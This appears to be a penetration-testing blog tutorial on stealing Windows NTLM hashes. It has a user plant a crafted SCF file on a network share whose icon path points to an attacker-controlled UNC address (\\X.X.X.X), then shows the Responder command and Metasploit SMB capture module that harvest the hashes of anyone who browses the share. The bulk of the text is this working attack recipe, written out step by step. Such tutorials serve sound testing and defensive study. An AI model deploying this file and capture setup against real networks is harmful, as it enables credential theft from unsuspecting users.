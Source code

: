 ## Gathering Hashes

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

[Shell]
Command=2
IconFile=\\X.X.X.X\share\filename
[Taskbar]
Command=ToggleDesktop

![SCF File - Contents](https://pentestlab.files.wordpress.com/2017/12/scf-file-contents.png?w=760)

SCF File – Contents

Saving the pentestlab.txt file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the pentestlab.scf on the top of the share drive.

![SCF File](https://pentestlab.files.wordpress.com/2017/12/scf-file.png?w=760)

SCF File

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

1

`responder -wrf --lm -v -I eth``0`

![Responder - Parameters for SCF](https://pentestlab.files.wordpress.com/2017/12/responder-parameters-for-scf.png?w=760)

Responder – Parameters for SCF

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![Responder - NTLMv2 via SCF](https://pentestlab.files.wordpress.com/2017/12/responder-ntlmv2-via-scf.png?w=760)

Responder – NTLMv2 via SCF

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

1

`auxiliary/server/capture/smb`

![Metasploit - Capture SMB Module](https://pentestlab.files.wordpress.com/2017/12/metasploit-capture-smb-module.png?w=760)

Metasploit – Capture SMB Module
